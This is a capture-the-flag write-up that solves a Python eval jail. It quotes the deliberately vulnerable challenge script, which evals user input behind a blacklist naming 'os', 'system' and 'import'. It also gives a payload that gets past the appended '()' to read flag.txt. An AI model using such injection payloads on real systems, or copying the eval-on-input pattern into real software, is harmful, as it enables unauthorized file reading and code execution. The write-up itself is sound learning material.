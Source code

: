 # Unbreakable

The goal of this challenge is to bypass the following python script to print a file to the screen.   
We notice a blacklist which stops us from using quite a lot of characters.   
Using open to get the content of the file and printing it is no problem : `print(open('flag.txt','r').read())`   
The problem are the parenthesis in the eval which creates an error when trying to execute our command. `eval(ans + '()')`   
I first tried to use str and use one of the str methods to convert the None returned by print to a string and avoid throwing an exception.  
But it wasn't working so i found that it is possible to call multiple functions on one line by separating them with a comma.   
So the final payload is : `print(open('flag.txt','r').read()),print`


```python
#!/usr/bin/python3

banner1 = 'Coucou'

banner2 = 'EZ'

blacklist = [ ';', '"', 'os', '_', '\\', '/', '`',
              ' ', '-', '!', '[', ']', '*', 'import',
              'eval', 'banner', 'echo', 'cat', '%', 
              '&', '>', '<', '+', '1', '2', '3', '4',
              '5', '6', '7', '8', '9', '0', 'b', 's', 
              'lower', 'upper', 'system', '}', '{' ]

while True:
  ans = input('Break me, shake me!\n\n$ ').strip()
  
  if any(char in ans for char in blacklist):
    print(f'\n{banner1}\nNaughty naughty..\n')
  else:
    try:
      eval(ans + '()')
      print('WHAT WAS THAT?!\n')
    except:
      print(f"\n{banner2}\nI'm UNBREAKABLE!\n") 
```
